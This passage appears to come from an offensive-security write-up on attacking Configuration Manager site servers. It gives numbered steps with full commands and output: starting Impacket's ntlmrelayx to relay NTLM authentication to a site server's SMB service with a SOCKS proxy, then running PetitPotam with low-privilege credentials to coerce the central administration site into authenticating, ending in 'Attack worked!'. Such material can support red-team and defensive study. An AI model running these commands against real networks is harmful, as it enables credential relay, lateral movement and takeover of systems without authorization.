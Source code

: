 2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service on the primary site server identified in the previous step.  The `-socks` flag is used to hold the authenticated session open:
    ```
    └─# python3 ntlmrelayx.py -t smb://TARGET_SITE_SERVER -smb2support -socks
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] SOCKS proxy started. Listening at port 1080
    [*] IMAPS Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] HTTPS Socks Plugin loaded..
    [*] SMB Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the CAS via SMB, targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <CAS_SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```
